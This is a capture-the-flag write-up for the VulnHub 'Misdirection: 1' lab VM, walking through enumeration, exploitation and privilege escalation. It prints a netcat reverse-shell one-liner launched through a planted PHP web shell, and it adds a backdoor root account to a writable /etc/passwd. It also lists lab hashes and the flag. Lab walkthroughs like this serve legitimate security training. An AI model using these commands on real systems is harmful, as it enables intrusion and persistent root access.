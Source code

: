 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Misdirection 1",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for VulnHub VM Misdirection 1',
                pdfkeywords="oscp vulnhub linux",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[VulnHub] Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/)

**Date**: 11/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable)  

## Overview
This is a writeup for VulnHub VM [`Misdirection: 1`](https://www.vulnhub.com/entry/misdirection-1,371/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


![writeup.overview.killchain](./killchain.png)


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds

```

2\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
``` {.python .numberLines}
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)

```

3\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

![writeup.enumeration.steps.3.1](./screenshot00.png)  


### Findings
#### Open Ports:
``` {.python .numberLines}
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.187:8080/debug
```
#### Users
``` {.python .numberLines}
ssh: root, brexit
```

\newpage
## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
``` {.python .numberLines}
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f

```

![writeup.exploitation.steps.1.1](./screenshot01.png)  

![writeup.exploitation.steps.1.2](./screenshot02.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
``` {.python .numberLines}
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker

```

![writeup.privesc.steps.1.1](./screenshot03.png)  

![writeup.privesc.steps.1.2](./screenshot04.png)  

![writeup.privesc.steps.1.3](./screenshot05.png)  

![writeup.privesc.steps.1.4](./screenshot06.png)  

![writeup.privesc.steps.1.5](./screenshot07.png)  

![writeup.privesc.steps.1.6](./screenshot08.png)  

![writeup.privesc.steps.1.7](./screenshot09.png)  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
``` {.python .numberLines}
cat /root/root.txt

```

![writeup.privesc.steps.2.1](./screenshot10.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
``` {.python .numberLines}
0d2c6222bfdd3701e0fa12a9a.......
```

## References
[+] <https://www.vulnhub.com/entry/misdirection-1,371/>  
[+] <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
